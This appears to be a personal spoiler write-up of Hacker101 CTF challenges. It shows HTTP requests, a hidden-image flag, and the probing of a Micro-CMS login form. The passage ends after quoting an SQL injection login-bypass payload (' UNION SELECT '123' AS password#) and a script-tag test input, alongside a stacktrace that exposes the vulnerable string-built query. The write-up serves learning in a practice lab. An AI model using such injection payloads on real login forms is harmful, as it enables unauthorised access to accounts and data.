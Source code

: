 # CTF Hacker101.com

⚠️ SPOILER ALERT ⚠️

In this file I'll post the solutions to the CTF from the Hacker101 website, if you want to go through the challenge by yourself, don't read it yet!

## 1 -- A little something to get you started (trivial)

This webpage is only a message welcoming you.

I inspected the request to get to the page to see if the flags would be hidden in the headers but it was not.

```http
GET /cd2dc81eb7/ HTTP/1.1
Host: 34.74.105.127
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:77.0) Gecko/20100101 Firefox/77.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en,fr;q=0.8,fr-FR;q=0.5,en-US;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache
```

Then I went to peek to the source code, nothing fancy except that their is a css style requesting a `background-image` but the page is fully white which is kind of weird :p

![Suspicious css](img/Hacker101_CTF/flag1_1.png)

Then on the network ta we can see also a request to that background image

![Network tab](img/Hacker101_CTF/flag1_2.png)

We get the url for this background image `http://34.74.105.127/cd2dc81eb7/background.png`, and voilà!

![First Flag](img/Hacker101_CTF/flag1_flag.png)

Effectively an easy flag, my first one :)

## 2 -- Micro-CMS v1 (easy)

Can't reach the page, I don't know if it's part of the challenge or not? I'll go back later.

## 3 -- Micro-CMS v2 (medium)

Let's look at the request again to get to the challenge

```
GET /f02851105b/ HTTP/1.1
Host: 34.74.105.127
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:77.0) Gecko/20100101 Firefox/77.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en,fr;q=0.8,fr-FR;q=0.5,en-US;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache
```

Let's move on to the page and the source code

![Landing page](img/Hacker101_CTF/flag2_1.png)

We have two links in a list that map to requests to `page/1` and `page/2` and a route to create a new page `page/create`.

### page/1

```
GET /f02851105b/page/1 HTTP/1.1
Host: 34.74.105.127
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:77.0) Gecko/20100101 Firefox/77.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en,fr;q=0.8,fr-FR;q=0.5,en-US;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Referer: http://34.74.105.127/f02851105b/
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache
```

![First page](img/Hacker101_CTF/flag2_2.png)

#### edit/1

```
GET /f02851105b/page/edit/1 HTTP/1.1
Host: 34.74.105.127
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:77.0) Gecko/20100101 Firefox/77.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en,fr;q=0.8,fr-FR;q=0.5,en-US;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Referer: http://34.74.105.127/f02851105b/page/1
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache
```

```
GET /f02851105b/login HTTP/1.1
Host: 34.74.105.127
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:77.0) Gecko/20100101 Firefox/77.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en,fr;q=0.8,fr-FR;q=0.5,en-US;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://34.74.105.127/f02851105b/page/1
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache
```

![Log in page](img/Hacker101_CTF/flag2_login.png)

I tried to log in with **admin/admin** and here is the request

```
POST /f02851105b/login HTTP/1.1
Host: 34.74.105.127
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:77.0) Gecko/20100101 Firefox/77.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en,fr;q=0.8,fr-FR;q=0.5,en-US;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 29
Origin: http://34.74.105.127
DNT: 1
Connection: close
Referer: http://34.74.105.127/f02851105b/login
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache

username=admin&password=admin
```

Now I try with `<script>alert('toto');:` in the username and in the password field, and I get greeted with a nice stacktrace:

```
Traceback (most recent call last):
  File "./main.py", line 145, in do_login
    if cur.execute('SELECT password FROM admins WHERE username=\'%s\'' % request.form['username'].replace('%', '%%')) == 0:
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/cursors.py", line 255, in execute
    self.errorhandler(self, exc, value)
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/connections.py", line 50, in defaulterrorhandler
    raise errorvalue
ProgrammingError: (1064, "You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'toto');:'' at line 1")
```

That might indicates that an SQL injection is doable maybe?

After trying with less characters, I found that with only the `'` char I can trigger this error.

In the video from Hacker101, they mentionned that `UNION` might be handy, so tried a bunch of query but with no success. After looking for some help, I found that there is a [writeup for this CTF](https://github.com/testerting/hacker101-ctf)

It says they used `' UNION SELECT '123' AS password#` for the query to put into the login form.
The missing part for me was the `#` at the end. It serves to comment the rest of the line, and that allows to control a bit more what goes into the query.
